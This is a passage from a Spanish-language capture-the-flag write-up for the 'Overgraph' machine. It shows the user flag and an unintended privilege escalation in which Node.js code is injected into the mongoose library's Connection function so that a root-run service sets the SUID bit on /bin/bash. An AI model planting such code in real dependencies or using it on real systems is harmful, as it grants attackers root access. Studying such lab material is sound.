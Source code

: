 Puedo visualizar la primera flag

```null
user@overgraph:~$ cat user.txt 
eddb92777dd59868443a32c46df620ff
```

# Escalada (No intencionada)

En el directorio personal del usuario está almacenado el servicio web, que se estaba reiniciando cada cierto tiempo. Suponiendo que es root, puedo intentar inyectar comandos, modificando la configuración del ```mongoose```

```null
function Connection(base) {
  this.base = base;
  this.collections = {};
  this.models = {};
  this.config = {};
  this.replica = false;
  this.options = null;
  this.otherDbs = []; // FIXME: To be replaced with relatedDbs
  this.relatedDbs = {}; // Hashmap of other dbs that share underlying connection
  this.states = STATES;
  this._readyState = STATES.disconnected;
  this._closeCalled = false;
  this._hasOpened = false;
  this.plugins = [];
  if (typeof base === 'undefined' || !base.connections.length) {
    this.id = 0;
  } else {
    this.id = base.connections.length;
  }
  this._queue = [];
}
```

Le añado una función que se encargue de asignarle el privilegio SUID a la bash (Path: )

```null
const { exec } = require("child_process");

exec("chmod u+s /bin/bash", (error, stdout, stderr) => {
    if (error) {
        console.log(`error: ${error.message}`);
        return;
    }
    if (stderr) {
        console.log(`stderr: ${stderr}`);
        return;
    }
    console.log(`stdout: ${stdout}`);
});
}
```

